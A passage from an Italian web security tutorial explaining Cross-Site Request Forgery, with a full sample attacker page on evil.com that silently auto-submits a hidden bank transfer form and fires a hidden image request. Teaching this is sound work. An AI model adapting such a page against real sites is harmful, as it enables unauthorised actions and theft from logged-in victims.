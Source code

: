 
## 15.2 Cross-Site Request Forgery (CSRF)

### 15.2.1 - Introduzione

**CSRF** permette a un attaccante di **eseguire azioni** su un sito web **a nome dell'utente vittima**, senza che la vittima lo sappia.

**Requisiti attacco:**
1. Vittima autenticata su sito target
2. Sito vulnerabile (no CSRF protection)
3. Attaccante conosce struttura richieste

### 15.2.2 - Attacco CSRF

**Scenario: Trasferimento bancario**

```html
<!-- Sito legittimo: bank.com -->
<form action="/transfer" method="POST">
    <input name="to" placeholder="Destinatario">
    <input name="amount" placeholder="Importo">
    <button>Trasferisci</button>
</form>
```

**Sito attaccante (evil.com):**
```html
<!DOCTYPE html>
<html>
<body>
    <h1>Hai vinto un premio! Clicca qui!</h1>
    
    <!-- Form invisibile auto-submit -->
    <iframe style="display:none" name="csrf-frame"></iframe>
    
    <form id="csrf-form" 
          action="https://bank.com/transfer" 
          method="POST" 
          target="csrf-frame">
        <input type="hidden" name="to" value="attacker_account">
        <input type="hidden" name="amount" value="10000">
    </form>
    
    <script>
        // Auto-submit quando utente visita pagina
        document.getElementById('csrf-form').submit();
    </script>
    
    <!-- Alternativa: immagine auto-GET -->
    <img src="https://bank.com/transfer?to=attacker_account&amount=10000" 
         style="display:none">
</body>
</html>
```

